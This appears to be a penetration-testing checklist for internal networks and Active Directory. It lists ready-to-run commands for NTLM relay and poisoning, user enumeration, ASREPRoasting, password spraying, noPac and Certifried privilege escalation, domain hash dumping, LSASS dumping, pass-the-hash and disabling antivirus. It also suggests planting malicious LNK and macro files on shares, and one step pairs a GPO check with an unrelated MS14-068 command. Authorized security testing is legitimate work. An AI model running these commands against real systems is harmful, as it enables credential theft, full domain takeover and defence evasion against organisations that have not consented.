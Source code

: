 # OSINT (Userlist generation)
1. Generate user list from **LinkedIn/company website** using `theHarvester` tool
2. Use **hunter.io** to search for emails and get an idea on user naming convention
3. generate list of common passwords schemes including company name

# Network/AD Pentest
1. **[Time Saving]** start **Nessus** (basic network scan) in the background
2. **AD pentesting**
	1. **[Time Saving]** find targets without SMB signing enabled
	```bash
	crackmapexec smb <SUBNET_RANGE> --gen-relay-list <OUT_FILE>
	```
	2. **[Time Saving + Network Poisoning]** start **`Responder`** and start relaying to target list ---> obtain AD naming convention to modify userlist
	```bash
	responder -I <NETWORK_INTERFACE>
	```
	3. **[Time Saving + Social Engineering]** gather creds with fake UPnP devices using **`Evil-SSDP`**
	```bash
	python3 evil_ssdp.py <NETWORK_INTERFACE> --template scanner
	```
	4. **[Identifing Domain Controllers]** Doing a quick **`nmap`** scan searching for DNS, Kerberos or LDAP ports: 53, 88, 389
	```bash
	nmap -p53,88,389 --open <SUBNET_RANGE>
	```
	5. **[DNS Reconnaissance]** Do a reverse DNS lookup bruteforce to find other high-value targets **-->** set priority list for interesting host names
	```bash
	dnsrecon -d <DOMAIN_NAME> -n <SUBNET_RANGE>
	```
	6. **[Time Saving + Username/Share Enumeration]**
		1. Enumerate **Kerberos** with OSINT-Generated wordlist (*shorten according to convention found with responder*)
		```bash
		kerbrute userenum -d <DOMAIN_NAME> --dc <DOMAIN_CONTROLLER> <WORDLIST>
		```
		2. Enumerate **LDAP** (checking if anonymous bind is enabled)
		```bash
		ldapsearch -x -H ldap://<TARGET_IP> -b 'DC=LAB,DC=LOCAL'
		```
		3. Enumerate **SMB** guest/null/anonymous authentication/rid-brute
		```bash
		cme smb <TARGET_IP> -u ''      -p '' --shares --rid-brute
		cme smb <TARGET_IP> -u 'a'     -p '' --shares --rid-brute
		cme smb <TARGET_IP> -u 'guest' -p '' --shares --rid-brute
		```
		4. Enumerate **RPC**
		```bash
		enum4linux-ng -A <TARGET_IP>
		```
	7. **[Low-Hanging Fruit | Domain Controllers/Other Windows Hosts]**
		1. **Zero Logon** --> don't forget to restore password to avoid instability
		2. Try Eternal Blue
	8. **[Low-Hanging Fruit | Exchange]** Test for **Proxy Logon**
	9. **[Identifying ADCS + Other Web Services]**
		1. Run `nmap` scan for port 80
		```bash
		nmap --open -p 80,443 <SUBNET_RANGE> -oG web_services.txt
		```
		2. `curl` for the `certsrv` web directory --> perform **PetitPotam Attack**
		```bash
		curl -v http://<SERVER_IP>/certsrv
		```
	10. **[Unauthenticated AD Attacks | ASREPRoasing]** got a userlist? --> **ASREPRoast**
	```bash
	GetNPUsers.py -debug -dc-ip <DOMAIN_CONTROLLER_IP> -request -usersfile <FOUND_USERNAMES_LIST> <DOMAIN_NAME>/
	```
	11. **[Unauthenticated AD Attacks | Password Spraying]**
		1. First, try to obtain the **Domain Password Policy**
		```bash
		crackmapexec smb <DC_IP> -u '' -p '' --pass-pol
		```
		2. Start spraying with:
			1. Most common passwords
			2. Usernames as passwords
			3. Company-name conventions
	12. **[Authenticated AD Attacks without shell access]**  
		1. Domain Controller <= Microsoft Server 2012 R2? --> MS14-068 (a.k.a pykek)
		2. **ADCS found?**
			1. check for **samAccountName spoofing**
			```bash
			python noPac.py <DOMAIN_NAME>/<USERNAME>:'<PASSWORD>' -dc-ip <DOMAIN_CONTROLLER_IP> -dc-host <DOMAIN_CONTROLLER_FQDN> -shell --impersonate administrator
			```
			2. CVE-2022-26923 (a.k.a certifried)
			```bash
			certipy account create <DOMAIN_FQDN>/<AD_USER>@<DC_IP> -user '<NEW_COMPUTER_NAME>' -dns <DC_FQDN>
			certipy req -dc-ip <DC_IP> <DOMAIN_FQDN>/'<ADDED_COMPUTER_NAME_ENDING_WITH_DOLLAR_SIGN>'@<DC_IP> -ca <CA_NAME> -template Machine
			certipy auth -pfx <GENERATED_PFX_CERTIFICATE>
			secretsdump.py -just-dc <DOMAIN_FQDN>/'<DC_NAME_ENDING_WITH_DOLLAR_SIGN>'@<DC_IP> -hashes :<RETRIEVED_HASH>
			```
		1. check for writable GPOs
		```bash
		python ms14-068.py -u <USERNAME>@<DOMAIN_NAME> -p <USER_PASSWORD> -s <USER_SID> -d <DOMAIN_CONTROLLER_IP>
		```
		3. Search for **shell access** using SMB/WinRM
		```bash
		cme smb <SUBNET_RANGE> -u <USERNAME> -p <PASSWORD>
		cme winrm <SUBNET_RANGE> -u <USERNAME> -p <PASSWORD>
		```
		3. **MS Exchange found?** --> use `privexchange` relay attack to domain admin
		4. **Drop the MIC** (CVE-2019-1040)
		5. **Remote Print Nightmare** CVE-2021-1675
		7. Retrieve all AD users
			1. Do another full **ASREPRoast**
			2. Check for **stored passwords** in user description field (`ldapdomaindump` or `Get-ADUser` from a RSAT-enabled & Network Authenticated user)
		8. Retrieve full AD computer list --> check for interesting computers to target
		9. **Kerberoast**
		10. Run **Bloodhound**
			1. Conduct **ACL attacks** with `powerview` to abuse **dangerous rights** (ex: password reset)
			2. Abuse high privilege group memberships
				1. **DNSAdmins** --> Escalate to domain admin via DLL hijacking
				2. **Exchange Windows Permissions** --> DCSync
				3. **Backup Operators** --> backup `NTDS.dit`
				4. **LAPS Group** --> Ability to read **LAPS** passwords
				5. **gMSA Group** Ability to read **gMSA** passwords
				6. **Exchange Windows Permissions** --> DCSync
				7. **Key Admins/Enterprise Key Admins** With ADCS, do shadow credentials --> DCSync
				8. **Account Operators** --> modify group memberships --> exploit all above abilities from group memberships
				9. **Server Operators** --> administrative access to non-domain controller servers
			3. Locate computers where domain admins are logged in
			4. Check for **readable LAPS passwords**
		11. Enumerate **Group Policy Preferences** (MS14-025)
		12. Enumerate **SMB** share access with the obtained user using `crackmapexec` `--shares` module
			1. Passwords in files? --> search for keywords like "password" "creds" in readable files
			2. writable SMB share? --> plant **SCF/LNK/INI** file/malicious office document (macro attack) with interesting name (*to attract a user to open it*)
		13. Check for **Kerberos contrained/unconstrained delegation**
	13. **[Authenticated Attacks with shell/rdp access]** got user?
		1. **[Local Privilege Escalation]** Run **WinPEAS** --> regular windows pricesc paths
		2. **[Local Privilege Escalation]** `SeImpersonatePrivilege`? Abuse Potato attacks (SweetPotato)
		3. **[Local Privilege Escalation]** test **Local Print Nightmare** CVE-2021-1675
		4. **[Local Privilege Escalation]** **SMBGHost** CVE-2020-0796
		5. **[Local Privilege Escalation]** **HiveNightmare/SeriousSam** 2021-36934
		6. **[Local Privilege Escalation]** NetNTLMv1 found? Coerce with `petitpotam` and submit hash for cracking on [crack.sh](https://crack.sh/)
	14. **[After gaining Administrative Access]** got local admin?
		1. Dump SAM and get local admin NTLM hash
			1. **Pass-the-Hash** and spray the network using `crackmapexec` to check for reused local admin password
			2. Attempt password cracking and stuffing them accross all other authentication channels
			3. **[Antivrus Evasion]** found Antivirus?
				1. Attempt uninstalling
				2. Attempt stopping/disabling its services
				3. Attempt deleting its unprotected files
				4. Attempt obfuscating powershell scripts using `Invoke-Obfuscation`
			4. Attempt Dumping **LSASS** Memory
				1. Task Manager
				2. **procdump**
				3. rundll
				4. **Powersploit** outminidump.ps1
				5. if Avast AV found, try using it to dump LSASS
			5. Domain Admin Logged in? --> Impersonate tokens with `incognito.exe`
3. **[Resume Network Exploitation]** Retrieve Nessus scan results
	1. Find most (critical + exploitable) vulnerabilities
	2. Check for known, safe and trusted exploits on
		1. **Metasploit**
		2. **ExploitDB**
		3. **GitHub** PoCs (review source code before execution)
	3. Check for clear-text protocols and perform MitM attacks (ARP poisoning)
	4. Attack common applications with specialized tools (ex: Oracle --> ODAT)
	5. Check for **log4j**
